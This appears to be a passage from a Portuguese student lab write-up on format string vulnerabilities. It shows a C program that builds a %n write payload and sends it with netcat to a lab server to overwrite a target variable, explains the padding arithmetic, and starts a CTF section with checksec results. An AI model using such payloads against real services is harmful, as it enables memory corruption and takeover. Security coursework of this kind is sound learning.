 ```c
#include <string.h>
#include <stdlib.h>

int main() {
    char input[] = "echo \x68\x50\x0e\x08%.19980X%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%n | nc 10.9.0.5 9090";

    system(input); return 0; }
```

Tal como na tarefa anterior, o _input_ começa pela posição de memória cujo conteúdo vamos alterar ("ao contrário", dado estarmos num contexto _little-endian_).

Queremos, então, ter 20480 caracteres de _input_ até ```%n``` e imprimimos, com todos os ```%x```, o conteúdo das 63 posições de memória até ao início do _buffer_ de _input_.

Neste caso, usamos ```%08x``` para garantir que, para cada uma das tais 63 posições de memória, 8 caracteres são impressos, dado que, com ```%x```, os zeros à esquerda são omitidos. Assim, ```63*8 = 504``` dos pretendidos 20480 já serão impressos.

Além disso, já temos os 4 bytes inicias que, como referido, especificam a posição de memória que afetaremos.

Então, resta-nos povoar os restantes 19980 caracteres do _input_. Para isso, usamos logo a seguir à especificação do endereço que nos interessa, ```%.19980X```, que povoará, automaticamente, 19880 caracteres com 0.

Compilando e correndo o programa, que, como se pode ver, já envia o _input_ direcionado ao servidor para uma consola, podemos então observar, no _output_ do servidor:

![Tarefa 3B_1](images/LB 7/Tarefa 3B_1.png)

(depois de uma série de zeros que ajudam a perfazer os desejados 19980...)

![Tarefa 3B_2](images/LB 7/Tarefa 3B_2.png)

Que o valor da variável-alvo é, tal como pretendido, ```0x00005000```.

# CTF Format Strings

## Desafio 1

Tal como descrito no enunciado, começamos por correr o comando ```checksec program``` para verificar quais as proteções ativas neste programa. 

![Desafio 1.1](images/LB 7/CTF-1.png) 

Verificamos então que, há RELRO parcial, existem canários de proteção do endereço de retorno e não há aleatorização das posições do binário (NO PIE).

Seguidamente, analisando o ficheiro ```main.c```, nomeadamente as seguintes linhas, percebemos que o input do utilizador é guardado num _buffer_ de 32 bytes e depois impresso num _printf_ sem quaisquer argumentos adicionais.
